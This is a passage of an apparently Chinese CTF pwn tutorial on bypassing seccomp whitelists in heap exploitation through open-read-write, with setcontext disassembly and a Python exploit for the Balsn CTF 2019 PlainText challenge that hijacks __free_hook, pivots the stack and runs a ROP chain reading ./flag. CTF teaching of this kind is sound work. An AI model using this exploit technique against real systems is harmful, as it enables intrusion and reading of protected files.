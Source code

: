 有些时候 pwn 题目中为了增加难度，会使用类似 [seccomp](https://en.wikipedia.org/wiki/Seccomp) 的函数来禁用一部分系统调用，往往会把 execve 这种系统调用禁用掉，基本上拿 shell 是不可能了，但是我们 pwn 题是面向 flag 的，所以还是可以通过 orw（ open-read-write ）的方法来读出 flag 的。在栈上的 orw 和 普通 rop 其实没有什么特别大的区别，这里主要谈一谈堆利用中的白名单绕过。

一般来说，开启了白名单的堆利用类题，我们会在劫持了某钩子函数如 __free_hook 或 got 表之后考虑实现 orw，这个时候我们只可以注入一个 gadget，一般来说我们希望这个 gadget 能够实现栈迁移，一种比较通用的做法是利用 setcontext 函数，其在 libc-2.29 中实现为

```
.text:0000000000055E00 ; __unwind {
.text:0000000000055E00                 push    rdi
.text:0000000000055E01                 lea     rsi, [rdi+128h] ; nset
.text:0000000000055E08                 xor     edx, edx        ; oset
.text:0000000000055E0A                 mov     edi, 2          ; how
.text:0000000000055E0F                 mov     r10d, 8         ; sigsetsize
.text:0000000000055E15                 mov     eax, 0Eh
.text:0000000000055E1A                 syscall                 ; LINUX - sys_rt_sigprocmask
.text:0000000000055E1C                 pop     rdx
.text:0000000000055E1D                 cmp     rax, 0FFFFFFFFFFFFF001h
.text:0000000000055E23                 jnb     short loc_55E80
.text:0000000000055E25                 mov     rcx, [rdx+0E0h]
.text:0000000000055E2C                 fldenv  byte ptr [rcx]
.text:0000000000055E2E                 ldmxcsr dword ptr [rdx+1C0h]
.text:0000000000055E35                 mov     rsp, [rdx+0A0h]
.text:0000000000055E3C                 mov     rbx, [rdx+80h]
.text:0000000000055E43                 mov     rbp, [rdx+78h]
.text:0000000000055E47                 mov     r12, [rdx+48h]
.text:0000000000055E4B                 mov     r13, [rdx+50h]
.text:0000000000055E4F                 mov     r14, [rdx+58h]
.text:0000000000055E53                 mov     r15, [rdx+60h]
.text:0000000000055E57                 mov     rcx, [rdx+0A8h]
.text:0000000000055E5E                 push    rcx
.text:0000000000055E5F                 mov     rsi, [rdx+70h]
.text:0000000000055E63                 mov     rdi, [rdx+68h]
.text:0000000000055E67                 mov     rcx, [rdx+98h]
.text:0000000000055E6E                 mov     r8, [rdx+28h]
.text:0000000000055E72                 mov     r9, [rdx+30h]
.text:0000000000055E76                 mov     rdx, [rdx+88h]
.text:0000000000055E76 ; } // starts at 55E00
```

当然其他版本也大同小异，可见在这个函数中有对 rsp 的赋值，如果我们可以控制 rdx，就可以控制 rsp 实现栈迁移了。

## 例题
### Balsn_CTF_2019-PlainText
#### 分析
在 orw 之前的利用这里不再赘述，请见《Glibc Heap 利用》目录下的《堆中的 Off-By-One》中对此题的分析
比较讨厌的是，在 libc-2.29 下，free 函数不会再将 rdi 赋值给 rdx，我们无法直接控制 rdx，仅能控制 rdi，幸好比较巧合的，在本题的 libc 中有这样一个 gadget

```
0x12be97: mov rdx, qword ptr [rdi + 8]; mov rax, qword ptr [rdi]; mov rdi, rdx; jmp rax;
```

通过使用这个 gadget 之后改变 rdx，ret 到 setcontext 之后就可以 rop 了（这个 chunk 无法通过 ROPgadget 找出，需要使用 ropper）。
#### exploit
这里只给出 payload
```python
## alloc to __free_hook ##
magic_gadget = libc_base + 0x12be97
add(0x28,p64(magic_gadget)) # 73

pop_rdi_ret = libc_base + 0x26542
pop_rsi_ret = libc_base + 0x26f9e
pop_rdx_ret = libc_base + 0x12bda6
syscall_ret = libc_base + 0xcf6c5
pop_rax_ret = libc_base + 0x47cf8
ret = libc_base + 0xc18ff

payload_addr = heap_base + 0x270
str_flag_addr = heap_base + 0x270 + 5 * 0x8 + 0xB8
rw_addr = heap_base 

payload = p64(libc_base + 0x55E35) # rax
payload += p64(payload_addr - 0xA0 + 0x10) # rdx
payload += p64(payload_addr + 0x28)
payload += p64(ret)
payload += ''.ljust(0x8,'\x00')

rop_chain = ''
rop_chain += p64(pop_rdi_ret) + p64(str_flag_addr) # name = "./flag"
rop_chain += p64(pop_rsi_ret) + p64(0)
rop_chain += p64(pop_rdx_ret) + p64(0)
rop_chain += p64(pop_rax_ret) + p64(2) + p64(syscall_ret) # sys_open
rop_chain += p64(pop_rdi_ret) + p64(3) # fd = 3
rop_chain += p64(pop_rsi_ret) + p64(rw_addr) # buf
rop_chain += p64(pop_rdx_ret) + p64(0x100) # len
rop_chain += p64(libc_base + libc.symbols["read"])
rop_chain += p64(pop_rdi_ret) + p64(1) # fd = 1
rop_chain += p64(pop_rsi_ret) + p64(rw_addr) # buf
rop_chain += p64(pop_rdx_ret) + p64(0x100) # len
rop_chain += p64(libc_base + libc.symbols["write"])

payload += rop_chain
payload += './flag\x00'
add(len(payload) + 0x10,payload) # 74
#gdb.attach(proc.pidof(sh)[0])
delete(74)

sh.interactive()
```
